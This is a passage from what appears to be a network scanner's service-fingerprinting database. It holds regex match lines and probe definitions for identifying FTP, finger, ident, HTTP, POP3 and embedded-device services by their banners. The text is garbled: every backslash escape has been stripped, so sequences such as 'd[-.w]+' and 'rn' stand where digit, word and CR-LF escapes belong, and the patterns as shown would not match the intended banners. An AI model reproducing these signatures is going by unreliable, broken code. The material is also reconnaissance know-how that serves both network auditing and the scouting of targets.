match vtun m|^VTUN server ver (d[-.w /]+)n|  v/Vtun Virtual Tunnel/$1//
match vtun m|^VTUN server ver . (d[-.w /]+)n| v/Vtun Virtual Tunnel/$1//
match winshell m/^Microsoft Windows ((2000)|(XP)|(NT 4.0)) [Version ([d.]+)]rn(C) Copyright 1985-20dd Microsoft Corp.rnrn/ v/Microsoft Windows $1 $5 cmd.exe///
# CcXstream Media Server 1.0.15 on Linux - Uses XBMSP (X-Box Media Streaming Protocol)
match xbmsp m|^XBMSP-1.0 1.0 CcXstream Media Server (d[-.w]+)n| v/CcXstream Media Server/$1//
# XFCE Desktop Version 3.99.4 From Gentoo 1.4 Ebuild on Linux 2.4.6
match xfce m|^x01@| v/XFCE Desktop///
match zebra m|^rnHello, this is zebra (version (d[-.w]+)).rnCopyright 1996-20| v/GNU Zebra routing software/$1//
match zebra m|^rnHello, this is zebra (version (d[-.w]+)).rnCopyright 200d| v/GNU Zebra routing software/$1//
match pcp m|^x14p..x02x01| v/SGI Performance Co-Pilot///
match smtp m|^220 SPAM, we hates it.rn| v/Barracuda Spam firewall///
# 13720/tcp
match bprd m|^x0eEXIT STATUS 23$| v/Veritas Netbackup///
# 13782/tcp
match bpcd m|^gethostbyaddr: [w ]+n$| v/Veritas Netbackup//refused/
# PostCast SMTP server 2.6.0 ( http://www.postcastserver.com/ )
match smtp m|^220 PostCast SMTP server.*rn$| v/PostCast SMTP server///
##############################NEXT PROBE##############################
Probe TCP GenericLines q|rnrn|
ports 21,23,43,98,110,113,199,505,540,628,1040,1248,1467,1501,2010,3333,5432,5555,6112,6667-6670,11965,30444
# bnetd (PvPGN BnetD Mod version 1.5.0) on Debian GNU/Linux (sid)
match bnetd m|^BOT or Telnet Connection from [127.0.0.1]rnrnEnter your account name and password.rnSorry, there is no guest account.rnrnUsername: | v/PvPGN BnetD Mod/1.5.0//
match bnetd m|^Username: $| v/bnetd open source Blizzard Battlenet server///
# bnetd server 0.4.25 on Linux
# Cisco PIX 501 running PIX IOS 6.3(1)
match ciscopsdm m|^xc0x01....x03| v/Cisco PIX Secure Database Manager///
match crossmatchverifier m|^Idlern$| v/Cross Match Technologies Verifier fingerprint capture control port///
# I think this type of eggdrop banner is only used when customized or such.
match eggdrop m|^rnNickname.rnSorry, that nickname format is invalid.rn$| v/Eggdrop irc bot console///
# Alcatel Speedtouch ADSL Router
match ftp m|^220 Inactivity timer = d+ seconds. Use 'site idle <secs>' to change.rn221 Goodbye (badly formated command seen).  You uploaded 0 and downloaded 0 kbytes.rn221 Goodbye (badly formated command seen).  You uploaded 0 and downloaded 0 kbytes.rn$| v/Alcatel Speedtouch aDSL router ftpd///
# bftpd 1.0.22 on Linux 2.4
match ftp m|^220 rn500 Unknown command: ""rn500 Unknown command: ""rn$| v/bftpd///
# Multitech MultiVoip 410 VoIP gateway
match ftp m|^220 Service readyrn500 Unsupported commandrn$| v/Multitech MultiVoip 410 VoIP gateway ftpd///
# NetportExpress PRO/100 3 port print server
match ftp m|^220 FTP server ready.rn530 access denied.rn| v/Intel NetportExpress print server ftpd///
# D-Link Print Server internal FTP daemon (Firmware version 1.38) - D-Link Print Server DP-101
match ftp m|^220 FTP server ready.rn501 Command not supported.rn$| v/D-Link Printer Server ftpd///
match ftp m|^220 [-.w]+ FTP server ready.rn530 Please login with USER and PASS.rn530 Please login with USER and PASS.rn$| v/Solaris ftpd///
# vsftpd (Very Secure FTP Daemon) 1.0.0 on linux with custom ftpd_banner
# We'll have to see if this match is unique enough
match ftp m|^220 .*rn530 Please login with USER and PASS.rn530 Please login with USER and PASS.rn|s v/vsFTPd///
match ftp m|^220 [-.w]+ FTP Server ready ...rn530 r  : User not logged in. Please login with USER and PASS first.rn530 r  : User not logged in. Please login with USER and PASS first.rn$| v/Bulletproof ftp server//Windows/
# BulletProof FTP 2.21 on Windows 2000 Server
match ftp m|^220 ftprn$| v/Bulletproof ftp server//Windows/
# WarFTP Daemon 1.70 on Win2K
match ftp m|^220 [-.+w]+ FTP SERVICE readyrn500 Please enter a command. Dunno how to interperet empty lines...rn500 Please enter a command. Dunno how to interperet empty lines...rn$| v/WarFTPd//Windows/
# GKrellM System Monitor 2.1.15 on Linux
match gkrellm m|^<error>nBad connect string!| v/GKrellM System Monitor///
# Some web servers don't gie a 'Server: ' line for the Get request, but do for this probe.
match http m|^HTTP/1.1 400 .*rnServer: Microsoft-IIS/(d[-.w]+)rn| v/Microsoft IIS webserver/$1//
# Icecast version: 1.9+2.0alphasn
match http m|^HTTP/1.0 401 Authentication RequiredrnWWW-Authenticate: Basic realm="Icecast2 Server"rnrnYou need to authenticatern| v/Icecast streaming media server///
# Network Flight Recorder v3.2 on Solaris 8 (sparc)
match http m|^HTTP/1.0 400 Bad requestrnrn$| v/Network Flight Recorder IDS///
# Cisco 350 Series 802.11 AP
match http m|^HTTP/1.0 400 Bad RequestrnServer: thttpd/(d[-.w ]+)rn| v/thttpd/$1//
match icecast m|^HTTP/1.0 200 OKrnServer: icecast/(d[-.w]+)rn| v|Shoutcast/Icecast streaming audio|$1||
# slident 0.0.19
match ident m|^0, 0: ERROR: UNKNOWN-ERRORn$| v/slident///
# mlidentd 1.1 on Linux
match ident m|^0,0:ERROR:UNKNOWN-ERRORrn$| v/mlidentd///
# OpenBSD 3.2 identd
# May apply to Linux too -- need to investigate further.
match ident m|^0 , 0 : ERROR : UNKNOWN-ERRORrn$| v/OpenBSD identd///
# FreeBSD 4.8-RC inetd internal identd
match ident m|^0 , 0 : ERROR : INVALID-PORTrn$| v/FreeBSD identd///
# pidentd-3.1a19-157
match ident m|^ : ERROR : UNKNOWN-ERRORrn$| v/pidentd///
match ident m|^0, 0 : ERROR : X-INVALID-REQUESTrn$| v/Minidentd///
# http://packages.debian.org/unstable/net/ident2.html
match ident m|^0 , 0 : ERROR : INVALID-PORTrn0 , 0 : ERROR : INVALID-PORTrn$| v/Ident2///
# midentd 2.3.1 on Linux
match ident m|^0, 0 : ERROR : INVALID-PORTrn| v/midentd///
#midentd 2.1 on Linux 2.4.21
match ident m|^0,0 : ERROR : INVALID-PORTrn| v/midentd///
# Broken inetd configuration
# <27>Dec 19 17:37:37 inetd[28433]: execv /usr/openv/netbackup/bin/bpjava-msvc: No such file or directory
match inetd m|^<d+>[A-Z][a-z][a-z] +d+ d+:d+:d+ inetd[d+]: execv (/[-.\/w]+): (w[s-w.,]+)$| v/inetd//failed to exec $1: $2/
# Diverse IRC bot
match ircbot m|^ rnSorry, that nickname format is invalid.rrn$| v/Diverse IRC bot///
# Part of Linux net-snmp-5.0.6-17
match linuxconf m|^500 access denied: Check networking/linuxconf network accessrn$| v/Linuxconf//Access denied/
# Linuxconf 1.26r4
match linuxconf m|^500 access denied: Check config/networking/misc/linuxconf network accessrn<p>rnBy default,| v/Linuxconf//Access denied/
# Netsaint Status Daemon 2.15
match netsaint m|^Unknown commandn$| v/Netsaint Status Daemon///
# NSClient - http://nsclient.ready2run.nl/
match nsclient m|^ERROR:Wrong password$| v/Netsaint Windows Client///
match omniback m|^HP OpenView OmniBack II ([-.w]+): INET, | v/HP OpenView OmniBack/$1//
# Mercury/32 3.32 PH Server module on Windows XP
match ph-addressbook m|^598::Command not recognized.rn598::Command not recognized.rn$| v|Mercury/32 PH addressbook server||Win32|
match pop3 m|^+OK POP3 [-.+w]+ v(d[-.w]+) server readyrn| v/ipop3d/$1//
# iopd 2003debian0.0304182231-1
match pop3 m|^+OK POP3 [[-.w]+] v(200[-.w]+) server readyrn-ERR Null commandrn-ERR Null commandrn| v/ipopd/$1//
# Solid POP3d 0.15
match pop3 m|^+OK Solid POP3 server readyrn-ERR unknown commandrn-ERR unknown commandrn$| v/Solid POP3d///
# OS 400 V4R4M0
match pop3 m|^+OK POP3 server readyrn-ERR invalid commandrn$| v/IBM OS 400 pop3d///
# mailgate v3.5.177 on Win2K
match pop3 m|^+OK pop server readyrn$| v/MailGate pop3d//Windows/
# Postgres 7.1.3
match postgresql m|^EInvalid packet length$| v/PostgreSQL DB///
# postgresql-7.2.3-5.73; linux 2.4.20-18.7 redhat 7.3
match postgresql m|^EFATAL 1:  invalid length of startup packetn| v/PostgreSQL DB///
# Postfix qmqpd on Linux 2.4
match qmqp m|^58:Dnetstring format error while receiving QMQP packet header,$| v/Postfix qmqpd//Quick Mail Queueing Protocol/
# Ximian Red Carpet Daemon 1.4.4 on RedHat Linux 9.0
match redcarpet m|^Status: 400 Bad RequestrnContent-Length: 0rnrn| v/Ximian Red Carpet Daemon///
match smux m|^Ax01x02$| v/Linux SNMP multiplexer///
# Solaris 9
match uucp m|^login: Please enter user name: Password: $| v/Solaris uucpd///
match ups m|^32r $| v/Cyber Power PowerPanelPlus UPS Server//Windows/
match whois m|^%  No entries found for the selected source(s).n$| v/Merit IRRD whoisd///
match zebedee m|^x02x01$| v/Zebedee encrypted tunnel///
match bmc-perform-service m|^SDPACK$| v/BMC Perform Service Daemon///
# Grisoft AVG antivirus server (distributing virus database updates)
match http m|HTTP/1.0 404 Not FoundrnServer: GRISOFT-AVG TCP Server/(d[-.w ]+) .*rn| v/Grisoft AVG TCP Server/$1/antivirus updates/
# Ubicom embedded ( http://www.ubicom.com/home.htm )
match http m|^HTTP/1.1 400 Bad RequestrnCache-control: no-cachernServer: Ubicom/(d[-.w ]+)rn| v/Ubicom embedded HTTP server/$1//
##############################NEXT PROBE##############################
Probe TCP GetRequest q|GET / HTTP/1.0rnrn|
ports 70,79,80-85,88,113,139,143,280,497,515,540,554,631,783,993,995,1220,1503,2030,3052,3128,3372,3531,3689,5000,5432,5800,5900,6699,7070,8000-8010,8080-8085,8880-8888,9090,9999,10000,10005,11371,13722,15000,40193,4711
sslports 443
# Kerio PF 4.0.11 unregistered - Service process (Port 44xxx?) on MS W2K SP4+
match keriopfservice m|^(HTTP/1.0) 200 OKrnServer: Kerio Personal Firewallrn| v/Kerio PF 4 Service//$1/
match backupexecra m|^xf6xffxffxffx10$| v/Veritas BackupExec Remote Agent///
match dantzretrospect m|^xcax04$| v/Dantz Retrospect/6.0//
match dnet-keyproxy m|^HTTP/1.0 302 FoundrnLocation: http://www.distributed.net/rnrn$| v/Distributed.Net HTTP Keyproxy///
# Digital UNIX 5.6
match finger m|^Login name: /         tttIn real life: ???rnrnLogin name: GET       tttIn real life: ???rnrnLogin name: HTTP/1.0  tttIn real life: ???rn$| v/Digital UNIX fingerd///
# Internet Rex v2.67 Beta 1a
match finger m|^No such user No such user Nn$| v/Internet Rex finger server///
# FreeBSD 4.9-STABLE /usr/libexec/fingerd/
match finger m|^finger: /: no such usernfinger: GET: no such usernfinger: HTTP/1.0: no such usern$| v/FreeBSD fingerd///
# Bay Networks Micro Annex Comm. Server R10.0
match finger m|^No such activity.rn$| v/Bay Networks Micro Annex terminal server fingerd///
# Mercury/32 3.32 Finger Server module on Windows XP
match finger m|^GET / HTTP/1.0 is not known at this site.rn$| v|Mercury/32 fingerd||Win32|
# ffingerd 1.28
match finger m|^That user does not want to be fingered.n$| v/ffingerd///
# Finger 0.17 from debian linux (which is from Linux netkit I believe)
# OpenBSD 2.3
match finger m|^finger: GET: no such user.nfinger: /: no such user.nfinger: HTTP/1.0: no such user.n$| v|BSD/Linux fingerd|||
# Linux port of in.fingerd from OpenBSD network tools - started with -w to show welcome banner
match finger m|^rnWelcome to Linux version (d[-.w]+) at [-.w]+ !rnn.*(d+) user.*nrnfinger: GET: no such user.nfinger: /: no such user.nfinger: HTTP/1.0: no such user.n| v/OpenBSD fingerd//ported to Linux; Linux version $1; $2 users logged in/
# Redhat Linux from finger-server-0.17-9 RPM
match finger m|^finger: GET: no such user.rnfinger: /: no such user.rnfinger: HTTP/1.0: no such user.rn$| v/Linux fingerd///
# NetBSD 1.6ZA (berkeley fingerd 8.1 sibling)
match finger m|^finger: GET: no such usernfinger: /: no such usernfinger: HTTP/1.0: no such usern$| v/NetBSD fingerd///
# Solaris 9
match finger m|^Login       Name               TTY         Idle    When    WherernGET                   ???rn/                     ???rnHTTP/1.0              ???rn$| v/Sun Solaris fingerd///
# mlfingerd 1.1
match finger m|^Information for user 'GET+20+2F+20HTTP+2F1.0':rnUnknown user.rn$| v/mlfingerd///
# SGI IRIX 6.5.18f finger
match finger m|^Login name: GET       tttIn real life: ???rn$| v/SGI IRIX fingerd///
match gnutella m|^HTTP/1.[01] 404 Not FoundrnServer: gtk-gnutella/(d[-.w]+) (([^)rn]+))rn| v/gtk-gnutella P2P client/$1/$2/
# LimeWire 3.5.8 on Suse Linux 8.1
match gnutella m|^HTTP/1.1 406 Not Acceptablern$| v/LimeWire Gnutella P2P client///
match gnutella m|^HTTP/1.0 200rnServer: Mutellarn| v/Mutella Gnutella P2P client///
match gnutella m|^HTTP/1.1 404 Not FoundrnServer: giFT-Gnutella/(d[-.w]+)rn| v/GiFT P2P client gnutella module/$1//
match gopher m|^HTTP/1.0 200 OkrnMIME-Version: 1.0rnServer: GopherWEB/(d[-.w]+)rn| v/Internet Gopher Server//Gopher+ protocol; GopherWeb $1/
match http m|^HTTP/1.0 401 UnauthorizedrnPragma: no-cachernContent-type: text/htmlrnWWW-Authenticate: Basic realm="Login to the Router Web Configurator"rnrn<html>n  <head>n  <title>401 Unauthorized</title>n  </head>n<body>nn<div align="center">| v/Draytek Vigor aDSL router webadmin///
match http m|^HTTP/1.1 ddd .*rnServer: webfs/(d[-.w]+)rn| v/WebFS httpd/$1//
match http m|^HTTP/1.0 200 OKrnConnection: Keep-AlivernContent-Type: text/htmlrnContent-Length: d+rnrn<HTML>n<!-- Copyright IBM Corporation, 1999 -->n<HEAD>n<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=| v/IBM switch webadmin///
match http m|^HTTP/1.0 ddd .*rnServer: WebCam2000/(d[-.w]+) (([-/.+w]+); www.stratoware.com/webcam2000/)rn| v/Webcam2000 httpd/$1/$2/
match http m|^HTTP/1.0 404 Not FoundrnDate: .*rnServer: BWS/1.0b3rnrn| v/Corel Paradox relational database web interface/9.X/Embedded BWS 1.0b3/
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: WebSite/(d[-.w]+)rn| v/Deerfield VisNetic WebSite Professional/$1//
match http m|^HTTP/1.0 dddrnServer: Statistics Server (d[-.w]+)rn| v/DeepMetrix Statistics Server/$1//
match http m|^HTTP/1.0 400 Bad RequestrnServer: OfficeScan ClientrnContent-Type: text/plainrnAccept-Ranges: bytesrnContent-Length: 4rnrnFail$| v/Trend Micro OfficeScan antivirus update client///
match http m|^HTTP/1.1 200 OKrnContent-Type: text/htmlrnDate: Tue, 07 Oct 2003 12:26:05 GMTrnAllow: GET, HEADrnServer: Spyglass_MicroServer/(d[-.w]+)rnrn<html>nn<head>nn<title>.*PhaserLink| v/Tektronix Phaser printer webadmin//Ebedded Spyglass MicroServer $1/
match http m|^HTTP/1.0 401 UnauthorizedrnServer: 3Com/v(d[-.w]+)rnWWW-Authenticate:Basic realm="device"rn| v/3Com switch webadmin/$1//
match http m|^HTTP/1.0 401 UnauthorizednDate: .*nServer: Acme.Serve/v(d[-.w ]+)nConnection: closenExpires: .*nWWW-Authenticate: Basic realm="PowerChute network shutdown"n|s v/APC Powerchute UPS web management//Embedded Acme.Serv $1/
match http m|^HTTP/1.0 302 FoundrnLocation: /index.htmrnrn| v/Alcatal Speedtouch aDSL router webadmin///
match http m|^HTTP/1.0 404 Not FoundrnServer: pks_www/(d[-.w]+)rn| v/OpenPGP public key server/$1//
match http m|^HTTP/1.0 401 UnauthorizedrnServer: Apache/0.6.5rnPragma: no-cachernContent-type: text/htmlrnWWW-Authenticate: Basic realm="System Setup"rn| v/BenQ AWL wireless router webadmin///
# Orinoco bg-2000 Access Point
match http m|^HTTP/1.1 401 UnauthorizedrnServer: Agranat-EmWeb/R5_2_6rnWWW-Authenticate: Basic realm="gateway"rn| v/Orinoco WAP webadmin//Embedded webserver: Agranat-EmWeb 5.2.6/
# ORiNOCO AP-600
match http m|^HTTP/1.1 401 UnauthorizedrnServer: Virata-EmWeb/R5_3_0rnWWW-Authenticate: Basic realm="Access-Product"rn| v/Orinoco WAP webadmin//Embedded webserver: Virata-EmWeb 5.3.0/
match http m|^HTTP/1.0 200 OKnServer: stats.mod/(d[-.w]+)n| v/Eggdrop stats.mod web statistics module/$1//
match http m|^HTTP/1.1 200 OKrnServer: PPR-httpd/(d[-.w]+)rn| v/PPR print spooling daemon ppradmin/$1//
match http m|^HTTP/1.1 200 OKrnDate: .*rnServer: RAC_ONE_HTTP (d[-.w]+)rn| v/Dell Embedded Remote Access card webserver/$1//
match http m|^HTTP/1.0 200 OKrnContent-Type: text/htmlrnrn<HTML>rn<HEAD>rn<TITLE>EpsonNet WebAssist Rev.(d[-.w]+)</TITLE>| v/EpsonNet WebAssist printer configuration/$1//
match http m|^HTTP/1.0 200 OKrnContent-Type: text/htmlrnrn<HTML><HEAD><META HTTP-EQUIV="Content-type" CONTENT="text/html; charset=iso-8859-1">rn<TITLE>Lexmark ([-/.+w]+)</TITLE>| v/Lexmark printer webadmin//Lexmark $1/
match http m|^HTTP/1.0 200 OKnServer: III (d[-.w]+)n| v/Innovative Interfaces Innopac httpd/$1//
match http m|^HTTP/1.0 401 UnauthorizedrnContent-type: text/htmlrnWWW-Authenticate: Basic realm="CISCO_WEB"rn| v/Cisco DSL router webadmin///
match http m|^HTTP/1.0 ddd .*rnRAKeepAliveHeader: .rn| v/RemotelyAnywhere remote PC management webserver///
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: Ipswitch-IMail/(d[-.w]+)rn| v/IPSwitch IMail web service///
match http m|^HTTP/1.0 200 OKrnContent-type: text/htmlrnPragma: no-cachernCache-Control: no-cachernrn<html><head><title>Authentication Form</title></head><BODY BGCOLOR="#000000" TEXT="#00FF00"><p><h3 align=left><font face="arial,helvetica">Client Authentication Remote Service</font>| v/Check Point Firewall-1 Client Authentication webserver///
match http m|^HTTP/1.0 404 Not FoundrnDate: .*rnServer: Check Point SVN foundationrn| v/Check Point Firewall-1 SVN foundation service///
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: HP-UX_Apache-based_Web_Server/(d[-.w]+) (.*)rn| v/HP-UX httpd/$1/Apache derived; $2/
match http m|^HTTP/1.1 302 MovedrnContent-type: text/htmlrnConnection: closernLocation: /1[012]d{8}/lrnrn<H1>Document| v/Novell NetMail ModWeb webmail///
match http m/^GIF89axa8-xf7x03x03x03x83x83x83xc4xc4xc4xfex02x02xc9x85cx85|xb5xe2xe2xe2xcaxa2x8exd4RRCCCxdeb"xa5xa5xa5xe7xc5/ v/Tweak XP web advertisement blocker///
# Management interface for Xerox Phaser 5400, a laser printer. 
match http m|^HTTP/1.1 200 OKrnContent-Type: text/htmlrnDate: .*rnExpires: .*rnLast-Modified: .*rnPragma: no-cachernServer: Allegro-Software-RomPager/(d[-.w]+)rnrn<HTML>n<!--Copyright (c) Xerox Corporation | v/Xerox printer webadmin//Embedded Allegro-Software-RomPager $1/
match http m|^HTTP/1.0 302 Moved Temporarilyrnserver: IronPort httpd/(d[-.w]+)rn| v/IronPort mail appliance admin websever/$1//
match http m|^HTTP/1.1 200 OKrnServer: Virata-EmWeb/R(d[-.w]+)rnContent-Type: text/htmlrnExpires: .*rnCache-Control: no-cachernPragma: no-cachernrnn<html>n<head><title>(CopperJet [-.+w ]+)</title>| v/Allied Data CopperJet aDSL modem//Embedded Virata-EmWeb $1; $2/
match http m|^HTTP/1.0 ddd .*rnDate: .*nServer: dhttpd/(d[-.w]+)rn| v/dhttpd/$1//
match http m|^HTTP/1.0 401 UnauthorizedrnServer: Snap Appliance, Inc./(d[-.w]+)rn| v/Snap Appliance storage system webadmin/$1//
match http m|^HTTP/1.0 200 OKrnPragma: no-cachernContent-Type: text/htmlrnrn<HTML>n<FRAMESET COLS="105,*" FRAMEBORDER=NO BORDER=0nFRAMESPACING=0>n<FRAME SRC="/side.html" SCROLLING=NO>n<FRAME SRC="/startupdata.html">n</FRAMESET>n</HTML>n$| v/Motorola cable modem webadmin///
match http m|^HTTP/1.0 200 OKnDate: .*nServer: Intel NetportExpressPro/(d[-.w]+)n| v/Intel NetportExpress Pro print server webadmin/$1//
match http m|^HTTP/1.0 200 OkrnContent-Type: text/html; charset="utf-8"rnrn<HTTP>rn<HEAD>rn  <TITLE>MythTV Status</TITLE>| v/MythTV Linux PVR webadmin///
match http m|^HTTP/1.0 302 FoundrnLocation: http://[-.+w]+:32ddd/rnrn$| v/Sun Solaris Management Console//Runs Tomcat webserver/
# 3Com OfficeConnect 812 Router telnetd
match http m|^HTTP/1.0 401 UnauthorizedrnWWW-Authenticate: Basic realm="OCR-([-.w]+)"rnContent-Type: text/htmlrnServer: Allegro-Software-RomPager/(d[-.w]+)rnrn| v/3Com OfficeConnect Router webadmin//Embedded Allegro-Software-RomPager $2; OfficeConnect OCR-$1/
match http m|^HTTP/1.0 200 OKrnPragma: no-cachernContent-Type: text/htmlrnrn<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">n.*<META NAME=Copyright CONTENT="Copyright (c) 2003 3Com Corporation. All Rights Reserved.">n.*<META http-equiv="3Cnumber" content="([-.w]+)">n|s v/3Com OfficeConnect router webadmin//3Com` $1/
match http m|^HTTP/1.0 401 UnauthorizedrnWWW-Authenticate: Basic realm="rnrn<title>401 Unauthorized</title><body><h1>401 Unauthorized</h1></body>| v/Acer Warplink Firewall Router webadmin///
match http m|^HTTP/1.0 401 UnauthorizedrnServer: httpdrnDate: Fri, 09 Jan 1970 11:48:03 GMTrnWWW-Authenticate: Basic realm="Sitecom WL-([-.w]+)"rn| v/Sitecom webadmin//Sitecom WL-$1 WAP/
match http m|^HTTP/1.0 200 OKrnDate: .*rnrn<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"><html><body bgcolor="#C0C0C0" text="#000000" vlink="#800080" link="#0000FF"><P><h1>TempTrax Digital Thermometer</h1>| v/SensaTronics TempTrax Digital Thermometer///
match http m|^HTTP/1.1 401 UnauthorisedrnServer: Zeus/(d[-.w]+)rn.*WWW-Authenticate: basic realm="Zeus Admin Server"rn|s v/Zeus httpd Admin Server/$SUBST(1,"_",".")//
match http m|^HTTP/1.1 ddd .*rnServer: Zeus/(d[-.w]+)rn| v/Zeus httpd/$1//
match http m|^HTTP/1.0 404 File not FoundrnServer: SPiN ChatSystem/(d[-.w]+)rn| v/SPiN web chat system/$1//
# Netgear FR114P Firewall Router
match http m|^HTTP/1.0 401 UnauthorizedrnServer: IP_SHARER WEB (d[-.w]+)rnWWW-Authenticate: Basic realm="(FR[-.w+]+)"rn| v/Netgear FR-series firewall router webadmin//Model $2; Embedded webserver: IP_SHARED WEB $1/
# Netgear FR314 Firewall Router
match http m|^HTTP/1.0 200 OKrnServer: NETGEAR Firewallrn| v/Netgear FR-series firewall router webadmin///
# Netgear FVS318 Firewall/Router
match http m|^HTTP/1.0 200 OKrnServer: NetgearrnContent-Type: text/htmlrnPragma: no-cachernLast Modified: .*rnConnection: closernrn<html>rt<head>rtt<meta http-equiv="content-type" content="text/html;charset=ISO-8859-1">rtt<title>rtttNETGEAR Router r| v/Netgear router webadmin///
# Netgear RP614 firmware version 4.12
match http m|^HTTP/1.0 401 UnauthorizedrnWWW-Authenticate: Basic realm="(RPd+)"rnServer: Embedded HTTPD v(d[-.w]+), | v/Netgear router webadmin//Netgear $1; Delta Networks Embedded HTTPd $2/
# CiscoSecure ACS 3.1 on Windows 2000 Server
# Cisco Secure ACS for Windows 2000
match http m|^HTTP/1.0 200 OKrnContent-Type: text/htmlrnContent-length: .*rnrn<html>rn<head>rn<title>CiscoSecure ACS Login</title>| v/Cisco Secure ACS web interface///
# Pix Device Manager (PDM) version 3.01
match http m|^HTTP/1.0 401 UnauthorizedrnDate: .*rnContent-Type: text/htmlrnExpires: .*rnWWW-Authenticate: Basic realm="PIX"| v/Cisco PIX Device Manager///
match http m|^HTTP/1.0 ddd .*rnServer: DHost/(d[-.w]+) HttpStk/(d[-.w]+)rn| v/Novell eDirectory DHOST httpd/$1/HttpStk: $2; used by iMonitor/
match http m|^HTTP/1.0 ddd .*rnServer: 3ware/(d[-.w]+)rn| v/3Ware web interface/$1/RAID storage/
match http m|^HTTP/1.0 ddd .*rnServer: Cherokee/(d[-.w]+)rn| v/Cherokee httpd/$1//
match http m|^HTTP/1.0 200 OKrnServer: HomeSeerrn| v/HomeSeer Home Control Web Interface///
# Multitech MultiVoip 410 VoIP gateway
match http m|^HTTP/1.1 200 OKrnServer: RTXCweb Software (d[-.w]+)rnDate: .*rnContent-type: text/htmlrnrn<html>rn<head>rn<META HTTP-EQUIV="PRAGMA" CONTENT="NO-CACHE">rn<META HTTP-EQUIV="EXPIRES" CONTENT="-1">rn<script language = "Javascript">rnvar title_string = " v [Firmware - [w ]+]| v/Multitech MultiVoip VoIP gateway web interface//Embedded webserver: RTXCweb $1/
# NetComm NB1300 ADSL Modem/Router
match http m|^HTTP/1.1 401 UnauthorizedrnServer: WindWeb/(d[-.w]+)rnConnection: closernWWW-Authenticate: Basic realm="([-./w ]+)"rnContent-Type: text/htmlrnrnHasbani Web Server| v/WindWeb embedded webserver/$1/As on NetComm DSL modems; Realm: $2; Calls itself Hasbani Web Server/
match http m|^HTTP/1.0 200 OKrnServer: SimpleServer:WWW/(d[-.w]+)rn| v/AnalogX SimpleServer httpd/$1/Windows/
# Xitami v2.4d9 Windows
match http m|^HTTP/1.0 ddd .*rnContent-Length: d+rnX-Powered-By: ([-/.w ]+)rnContent-Type: .*rnServer: Xitamirn| v/Xitami httpd//$1/
match http m|^HTTP/1.1 200 OKrnDate: .*rnServer: CANON HTTP Server Ver(d[-.w ]+)rn| v/Canon printer web interface/$1//
match http m|^HTTP/1.1 500 Server ErrorrnConnection: closernContent-Length: d+rnDate: .*rnServer: Radio UserLand/(d[.w ]+)-([-.w ]+)rnrn| v/Radio Userland blog server/$1/platform: $2/
match http m|^HTTP/1.1 302 Moved TemporarilyrnPragma: no-cachernLocation: /servlet/nodeinfo/rnExpires: .*rnCache-Control: post-check=0, pre-check=0rnConnection: closernContent-type: rnServer: Fred (d[-.w]+) (build (d+)) HTTP Servletsrnrn| v/Freenet Fred anonymous P2P/$1 build $2//
match http m|^HTTP/1.0 200 OkrnServer: diva_httpdrn| v/Eicon Diva ISDN card configuration server///
match http m|^HTTP/1.0 ddd .*rnServer: Resin/(d[-.w]+)rn| v/Caucho Resin JSP engine/$1//
match http m|^HTTP/1.0 ddd .*rnMIME-Version: 1.0rnServer: linuxconf/(d[-.w]+)rn| v/Linuxconf web configuration server/$1//
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: TinyWeb/(d[-.w]+)rn| v/Tinyweb httpd/$1/on Windows/
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: WebSitePro/(d[-.w]+)rn| v/O'Reilly WebSite Pro/$1//
match http m|^HTTP/1.0 ddd .*rnServer: Lucent Security Management Admin Server rn| v/Lucent Security Management Admin Server//Lucent VPN Firewall/
match http m|^HTTP/1.0 ddd .*rnServer: thttpd/(d[-.w]+) (w+)rn| v/thttpd/$1 $2//
match http m|^HTTP/1.1 .*rnDate: .*rnServer: FirstClass/(d[-.w]+)rn| v/FirstClass webserver/$1//
match http m|^HTTP/1.1 400 Bad requestrnServer: Citrix Web PN Serverrn| v/Citrix Metafrme ICA Browser///
match http m|^HTTP/1.1 ddd .*rnServer: HP-ChaiServer/(d[-.w]+)rnContent-length: 0rnrn|s v/HP JetDirect printer webadmin//HP-ChaiServer $1/
# mldonkey-2.5-3 http port on Linux 2.4.21
match http m|^HTTP/1.0 200 OKrnServer: MLdonkeyrn.*rnrn<html>n<head>nn<title>MLdonkey: Web Interface</title>n|s v/MLdonkey multi-network P2P web interface///
# Docupoint Discovery 3.0(Apache) on Windows 2000 Professional
match http m|^<html>r<head><title>Docupoint Discovery</title>r<META HTTP-EQUIV="Content-Type" CONTENT="text/html; CHARSET=UTF-8">r| v/Docupoint Discovery search engine///
match http m|^HTTP/1.0 200 OKrn.*rnrn<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">n<html><head><title>BitTorrent download info</title></head>n<body>n<h3>BitTorrent download info</h3>n<ul>n<li><strong>tracker version:</strong> (d[-.w]+)</li>|s v/BitTorrent P2P tracker/$1/bttrack.py/
match http m|^HTTP/1.1 ddd .*rnServer: eMulern.*<title>eMule (d[-.w]+) |s v/eMule P2P/$1//
# Network Associates EPO 3.0
match http m|^HTTP/1.0 200 OKrnServer: Agent-ListenServer-HttpSvr/1.0rn.*<ComputerName>([-.w]+)</ComputerName>|s v/Network Associates ePolicy Orchestrator//Computername: $1/
match http m|^HTTP/1.0 403 ForbiddenrnServer: Agent-ListenServer-HttpSvr/1.0rn| v/Network Associates ePolicy Orchestrator///
match http m|^HTTP/1.1 ddd .*rnServer: Debut/(d[-.w]+)rn| v|Brother printer webadmin||Embedded server: Debut $1|
match http m|^HTTP/1.0 ddd .*rnServer: kpfrn| v/KDE Public Fileserver///
match http m|^HTTP/1.1 200 OKrnServer: Netscape-FastTrack/(d[-.w]+)rn| v/Sun Iplanet webserver/$1//
match http m|^HTTP/1.0 200 OKrnDate: .*rnServer: dwhttpd/(d[-.w]+) (([^rn)]+))rnContent-type: text/htmlrnrn  n  t<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2//EN">n  <HTML>n    <HEAD>n      n      <TITLE>AnswerBook2: Personal Library</TITLE>n| v/Sun AnswerBook2 webserver/$1/$2/
match http m|^HTTP/1.0 ddd .*rnServer: enCoreXpress/(d[-.w]+)rn|s v|enCoreXpress MOO||http://lingua.utdallas.edu/encore|
